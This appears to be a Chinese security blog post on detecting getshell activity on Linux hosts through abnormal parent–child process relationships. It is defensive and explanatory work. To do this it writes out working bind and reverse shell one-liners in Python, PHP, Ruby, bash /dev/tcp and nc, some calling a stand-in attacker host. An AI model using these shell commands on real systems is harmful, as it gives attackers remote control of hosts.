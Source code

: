 ```yaml
---
layout: post
title:  "异常进程检测（getshell）的场景分析和发现方法"
date: 2017-05-16 18:06:26 +0800
author: Invo
categories: original
---
```


为了能识别主机上被攻击者利用漏洞后获取的shell进程，整理了网络上常见的正向或反向shell的姿势技巧。在测试环境中设计和模拟了集中getshell的场景，并分析这些场景下进程的派生与继承关系。

### 获得shell的姿势
1.一段python脚本

{% highlight python %}
from socket import *
import subprocess
import os, threading, sys, time
if __name__ == "__main__":
        server=socket(AF_INET,SOCK_STREAM)
        server.bind(('0.0.0.0',1234))
        server.listen(5)
        print 'waiting for connect'
        talk, addr = server.accept()
        print 'connect from',addr
        proc = subprocess.Popen(["/bin/sh","-i"], stdin=talk,
                stdout=talk, stderr=talk, shell=True)

{% endhighlight %}


观察进程的派生关系，通过监听的端口找到模拟攻击者的shell进程，这个pid为5359的进程在进程树上是init进程的子进程，这是一个比较明显的异常信号。这是一个正向连接的脚本，即服务器开放一个监听端口让攻击者连接。这个脚本fork出一个子进程，当用户连接上以后就结束主进程。子进程由init接管，pid变成1。而通常，bash、sh等shell或者perl、python、ruby、lua等程序语言一定是由bash、ssh、login等程序派生出来的。


![abnormal-proc-detection-001.png](/assets/img/abnormal-proc-detection-001.png)

2.一句php命令
```
php -r '$sock=fsockopen("127.0.0.1",12345 );exec("/bin/sh -i <&3 >&3 2>&3");'
```


php命令以文件的形式创建一个socket并监听端口，正向连接，同步调用sh。在进程树上，是一个php进程派生出一个sh。对于检测者，是比较理想的一种情况。


![abnormal-proc-detection-002.png](/assets/img/abnormal-proc-detection-002.png)

3.一句ruby命令

```
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("127.0.0.1","4321");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```


ruby创建一个反向连接，与python脚本一样，完成连接后ruby主进程退出，子进程由init接管。与python不同的是，这句命令直接使用ruby IO模块中的方法与操作系统交互，没有调用shell。（也有调用shell的命令。）如果删除了"exit if fork;"这句，则变成bash派生出的ruby进程，检测难度就变大了。


![abnormal-proc-detection-003.png](/assets/img/abnormal-proc-detection-003.png)
上图是有exit if fork;的情况


![abnormal-proc-detection-004.png](/assets/img/abnormal-proc-detection-004.png)
上图是没有exit if fork;的情况

4.一句话bash反弹shell
```
bash -i >& /dev/tcp/attacker's_ip/attacer's_port 0>&1
```
这种写法从进程间的关系上看不出异常，但是因为一般会利用某种应用的漏洞执行shell命令，所以还是有办法检测的。


5.利用nc反弹shell
a 使用管道的方式

```
mknod backpipe p && nc attackerip 8080 0<backpipe | /bin/bash 1>backpipe

/bin/sh | nc attackerip 4444

```
b 使用nc的-e参数

由于没有找到合适的测试环境，没有测试成功，线上环境编译的nc一般不包含-e参数，风险较小（实际上在入侵的时候几乎从来没有执行成功过）。

### 检测规则

1.父进程为某个守护进程（web应用、数据库、自研应用），子进程为bash、ash、ksh……

2.父进程为某个守护程序或程序语言，子进程为另一种程序语言。例如java派生出perl。

2.init派生的bash、ash、ksh……等等。（PHP、ruby、perl也要监控，但鉴于很多监控工具使用python编写，如果检测init直接派生的python会有大量误报的问题）

3.nc程序进程，出现了管道或者-e参数

以上是特征非常明显的进程状态，以下还有两条可以作为辅助的特征，但最好不要独立使用，因为会有很多误报。

1.子进程的创建时间与父进程相差很远（同时又不是周期性的），除非父进程是init的情况

2.bash建立了socket

其实还有一些规则是我没想到的，欢迎大家补充。可以发邮件给我wangzf0225#gmail.com

### 模拟一个场景
例子：利用S2-045漏洞反弹shell

使用medicean的docker镜像创建了一个包含S2-042的典型利用场景的环境。利用exp成功执行命令"bash -i >& /dev/tcp/attacker's_ip/attacer's_port 0>&1"弹回shell，观察进程树：
![abnormal-proc-detection-005.png](/assets/img/abnormal-proc-detection-005.png)

发现这是一个比较典型的java派生bash子进程的情况。

当然，有时也会通过调用另一个语言程序实现反弹。
![abnormal-proc-detection-006.png](/assets/img/abnormal-proc-detection-006.png)


### PS 补充一点

pstree命令以默认方式输出所有进程，其中一部分进程pid使用pa aux中无法找到。这部分进程名通常用一对花括号包围，例如"{process}"。这是因为pstree默认输出所有的进程信息，而ps aux只输出一部分（尽管名义上输出全部）。使用ps -eLf可以看到所有的进程信息，实际上，而没有被显示的这部分进程的pid在ps -eLf中叫做LWP，即light weight process，也就是线程（thread）。
